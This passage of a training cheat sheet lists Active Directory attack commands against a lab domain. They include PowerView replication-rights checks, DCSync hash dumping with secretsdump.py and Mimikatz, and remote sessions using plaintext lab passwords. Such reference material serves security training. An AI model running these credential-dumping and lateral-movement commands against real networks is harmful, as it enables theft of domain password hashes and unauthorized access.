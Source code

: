 | `ConvertFrom-SddlString`                                     | PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host. |

  
  
  

# DCSync

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Get-DomainUser -Identity adunn  \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl` | PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host. |

| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host. |

| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |

| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |

  
  
  

# Privileged Access

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |

| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |

| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host. |

| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host. |

| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`). |

| `evil-winrm -i 10.129.201.234 -u forend`                     | Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`. |

| `Import-Module .\PowerUpSQL.ps1`                             | Used to import the `PowerUpSQL` tool.                        |

| `Get-SQLInstanceDomain`                                      | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |

| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host. |

| `mssqlclient.py`                                             | Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host. |
